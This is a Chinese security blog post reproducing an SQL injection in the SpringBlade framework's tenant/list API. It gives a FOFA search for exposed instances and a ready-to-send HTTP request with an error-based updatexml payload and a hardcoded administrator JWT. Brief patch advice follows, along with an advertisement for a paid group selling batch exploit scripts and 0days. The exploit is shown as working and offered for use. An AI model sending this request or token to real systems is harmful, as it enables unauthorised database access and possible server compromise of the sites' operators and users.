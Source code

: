 #  「漏洞复现」SpringBlade tenant/list SQL 注入漏洞   
冷漠安全  冷漠安全   2024-06-02 20:38  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
SpringBlade 是一个由商业级项目升级优化而来的 SpringCloud 分布式微服务架构、SpringBoot 单体式微服务架构并存的综合型项目  
。  
  
0x03  
  
**漏洞威胁**  
  
SpringBlade 后台框架 /api/blade-system/tenant/list 路径存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
body="https://bladex.vip/"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0pgia6ek47iaeAfzWoVyRPMuThKogsBTtmWY3lNWNjh4Vc7FUViaI1NXQpDrNx8TXoia3PDHExLoFjYrQ/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
**漏洞复现**  
  
POC  
```
GET /api/blade-system/tenant/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```  
  
查询数据库版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0pgia6ek47iaeAfzWoVyRPMuTCT6ianeHoXpWHBlHdsaR7cmxGMY40AOppHH6BzRr7S0XsjD0L0ma7sA/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0pgia6ek47iaeAfzWoVyRPMuTzA4BsZIyKcYv6mYuXNpf6zIiasvI1wlXzejwgpSxAEYciao6Dr2G0ZWg/640?wx_fmt=png&from=appmsg "")  
  
0x07  
  
**修复建议**  
  
⼚商已发布了漏洞修复程序，请及时关注更新：  
```
https://github.com/chillzhuang/blade-tool
```  
  
通过防⽕墙等安全设备设置访问策略，设置⽩名单访问。  
  
如⾮必要，禁⽌公⽹访问该系统。  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0pgia6ek47iaeAfzWoVyRPMuT8xruCsZY19hMELFl4xic177RWm6O7pIS8d5Vib3ZscAxicibM1TPA9XesQ/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pgia6ek47iaeAfzWoVyRPMuT5PjibaUzJ1uibjZMiaUHtMn1hpLYURGN5drVEPkINzj7sXQE6uW7enXFg/640?wx_fmt=gif&from=appmsg "")  
  
  
  
